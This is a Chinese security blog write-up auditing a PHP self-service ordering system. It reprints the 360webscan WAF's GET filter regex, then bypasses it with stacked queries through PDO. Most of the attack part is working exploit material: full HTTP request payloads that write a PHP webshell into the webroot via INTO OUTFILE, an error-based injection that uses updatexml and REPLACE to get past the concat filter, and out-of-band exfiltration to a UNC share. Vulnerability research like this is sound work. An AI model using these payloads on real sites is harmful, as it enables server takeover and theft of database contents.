# 记一次某下单系统审计——前台注入突破360webscan限制getshell-先知社区

> **来源**: https://xz.aliyun.com/news/18067  
> **文章ID**: 18067

---

# 前言

半夜闲来无事在码站中挑选几套源码审计用来写文章做案例，结果在十几套源码中，我一眼就顶真上了这套自主下单系统


或许是命中注定，当我点击下载开始，就有了这篇文章

**fofa结果**：

还不少

# 项目分析

源码下载到本地，phpstorm启动

项目结构

彩虹发卡那套二开的源码，我们先筛选前台文件

后台鉴权关键词





上工具

项目地址：https://github.com/caigo8/PHPAuthScanner



# 前台SQL注入

这套系统把sql查询方法封装了，那这里就一个个方法搜了、





限定目录一个个搜索关键词



挺多的，但是基本是不是做了字符转义



就是数据类型转换

在我长达两年半的筛选中，还是让我找到了一处，没有字符转义和数据类型转换的点

关键词`getColumn(`133通过getColumn执行语句，语句中直接拼接了$sql，$sql在131行定义，直接通过get传参，这里的逻辑判断只有GET['type']>=0，这个传什么都满足，问题不大，从接收参数到带入语句执行，没有看到字符转义和类型转换，存在注入

尝试延时poc发现提示“输入内容存在危险字符，安全起见，已被本站拦截”

在代码中全局搜索搜索**webscan\_pape()**方法发现项目存在360webscan

# 突破360webscan限制getshell

第一次遇到这个东西，第一反应在网上搜索对应资料

发现网上关于这个的主要利用白名单绕过，发现是P牛在14年提出的，真是流批(膜拜P神)

文章链接：https://www.leavesongs.com/PENETRATION/360webscan-bypass.html于是我在项目中查看白名单设置默认没有设置，那么除了webscan\_white\_url的特点路由的特点参数就是全局配置了，这里尝试从过滤规则入手吧

查看过滤规则这里是get传数据，我们关注get过滤规则即可​

过滤规则

//get拦截规则  
$getfilter = "\\<.+javascript:window\\[.{1}\\\\x|<.\*=(&#\\d+?;?)+?>|<.\*(data|src)=data:text\\/html.\*>|\\b(alert\\(|confirm\\(|expression\\(|prompt\\(|benchmark\s\*?\(.\*\)|sleep\s\*?\(.\*\)|\\b(group\_)?concat[\\s\\/\\\*]\*?\\([^\\)]+?\\)|\bcase[\s\/\\*]\*?when[\s\/\\*]\*?\([^\)]+?\)|load\_file\s\*?\\()|<[a-z]+?\\b[^>]\*?\\bon([a-z]{4,})\s\*?=|^\\+\\/v(8|9)|\\b(and|or)\\b\\s\*?([\\(\\)'\"\\d]+?=[\\(\\)'\"\\d]+?|[\\(\\)'\"a-zA-Z]+?=[\\(\\)'\"a-zA-Z]+?|>|<|\s+?[\\w]+?\\s+?\\bin\\b\\s\*?\(|\\blike\\b\\s+?[\"'])|\\/\\\*.\*\\\*\\/|<\\s\*script\\b|\\bEXEC\\b|UNION.+?SELECT\s\*(\(.+\)\s\*|@{1,2}.+?\s\*|\s+?.+?|(`|'|\").\*?(`|'|\")\s\*)|UPDATE\s\*(\(.+\)\s\*|@{1,2}.+?\s\*|\s+?.+?|(`|'|\").\*?(`|'|\")\s\*)SET|INSERT\\s+INTO.+?VALUES|(SELECT|DELETE)@{0,2}(\\(.+\\)|\\s+?.+?\\s+?|(`|'|\").\*?(`|'|\"))FROM(\\(.+\\)|\\s+?.+?|(`|'|\").\*?(`|'|\"))|(CREATE|ALTER|DROP|TRUNCATE)\\s+(TABLE|DATABASE)|<.\*(iframe|frame|style|embed|object|frameset|meta|xml)";

太多了，ai分析注入相关的过滤条件

|  |  |  |
| --- | --- | --- |
| 正则片段 | 匹配内容 | 描述 |
| \b(and|or)\b | and, or | 常见逻辑运算符，常用于注入中的条件判断（如 ' OR '1'='1） |
| \s+?[\\w]+?\\s+?\\bin\\b | in | 用于构造 IN() 子句，绕过黑名单过滤器 |
| \blike\b | like | 用于模糊匹配查询，也可能被用来进行盲注探测 |
| benchmark\s\*?$(.\*$ | benchmark(...) | 时间盲注常用函数，用于延迟响应时间 |
| sleep\s\*?$(.\*$ | sleep(...) | 同样用于时间盲注，制造延迟 |
| (group\_)?concat[\\s\\/\\\*]\*?$[^\\)]+?$ | concat(...), group\_concat(...) | 字符串拼接函数，常用于提取数据或绕过黑名单 |
| case[\s\/\\*]\*?when[\s\/\\*]\*?$[^$$]+?$ | case when ... then ... end | 条件判断语句，用于盲注探测数据库结构 |
| load\_file\s\*?$ | load\_file( | 读取服务器文件，可能用于读取敏感信息 |
| EXEC | exec | 执行命令，常用于 MSSQL 环境下的命令执行注入 |
| UNION.+?SELECT | union select ... | 联合查询，从其他表中提取数据 |
| UPDATE\s\*$.\*$SET | update ... set ... | 修改数据，可能篡改数据库内容 |
| INSERT\\s+INTO.+?VALUES | insert into ... values ... | 插入恶意数据 |
| (SELECT|DELETE)@{0,2}$.\*$FROM$.\*$ | select ... from ..., delete ... from ... | 查询或删除数据，获取或清除敏感信息 |
| (CREATE|ALTER|DROP|TRUNCATE)\\s+(TABLE|DATABASE) | create table, drop database 等 | 数据库结构操作，可能破坏系统 |
| $\/$\\*.\*$\\*\/$ | /\*...\*/ | SQL 注释符，常用于绕过关键字过滤规则 |
| [\\(\\)'\"\\d] | (, ), ', ", 数字 | SQL 中常见的符号，用于构造复杂注入语句 |
| >|<|=|\s+?([\\(\\)'\"\\d]+?=[\\(\\)'\"\\d]+?|[\\(\\)'\"a-zA-Z]+?=[\\(\\)'\"a-zA-Z]+?) | 比较操作符及等号匹配 | 如 '1'='1'、a=b，常用于布尔盲注 |

你妹的这么多，但是攻防不就是魔高一尺道高一丈吗

查看数据库操作连接接口发现底层采用的PDO连接，PDO默认是支持多语句查询的也就是我们常说的堆叠注入，那么在存在堆叠的情况下，我们就不需要union select和and | or了，因为过滤匹配规则是union select同时查询，我们查询可以直接；select，不会被拦截查询不影响的情况我们可以发现规则中貌似没有对写文件的函数限制，没有匹配`INTO OUTFILE`，那么这里是可以堆叠直接写文件的

测试POC​

```
GET /user/xxx.php?type=123';SELECT '<?php phpinfo();?>' INTO OUTFILE 'D://phpstudy_pro/WWW/caigo.php' --  HTTP/1.1
Host: ip:port
Cookie: PHPSESSID=4h4jp7jk3k944lcr5en7oj1jb5; mysid=9cad69a1439558ebb0878e80298f0e5b; user_token=2129LssuXaBKk%2FB2vY8Pp%2BKdf1Hh%2Fo1mvmeXE6DFI17lTx7mhIif9kIUxPTO9pDSP3YaM53I7WDnjWDnMoqw
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Referer: http://ip:port/user/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
```



# 其它的一些利用POC

## 报错注入

由于限制了concat(...),可以尝试使用REPLACE()拼接字符串

```
GET /user/xxxx.php?type=123'+%3BSELECT+updatexml%281%2C+IF%281%3D1%2C+REPLACE%28REPLACE%28%27~1~%27%2C%271%27%2Cdatabase%28%29%29%2C%27~%27%2C0x7e%29%2C+1%29%2C+1%29%3B+--+ HTTP/1.1
Host: ip:port
Cookie: PHPSESSID=4h4jp7jk3k944lcr5en7oj1jb5; mysid=9cad69a1439558ebb0878e80298f0e5b; user_token=2129LssuXaBKk%2FB2vY8Pp%2BKdf1Hh%2Fo1mvmeXE6DFI17lTx7mhIif9kIUxPTO9pDSP3YaM53I7WDnjWDnMoqw
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Referer: http://ip:port/user/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
```



这个功能点不报错，但是语句是没问题的



## 数据带外

也是基于`INTO OUTFILE`，可以把查询结果写到远程服务器上

```
GET /user/xxxx.php?type=123%27%3BSELECT+user%28%29+INTO+OUTFILE+%27%5C%5C%5C%5Clocalhost%5C%5Ctest%5C%5C2.txt%27+--+ HTTP/1.1
Host: ip:port
Cookie: PHPSESSID=4h4jp7jk3k944lcr5en7oj1jb5; mysid=9cad69a1439558ebb0878e80298f0e5b; user_token=2129LssuXaBKk%2FB2vY8Pp%2BKdf1Hh%2Fo1mvmeXE6DFI17lTx7mhIif9kIUxPTO9pDSP3YaM53I7WDnjWDnMoqw
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Referer: http://ip:port/user/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
```

没法dns带外数据，这个是把查询结果写入到远程服务器上，可以用来测试是否开启写文件功能

设置个共享文件夹

发送请求

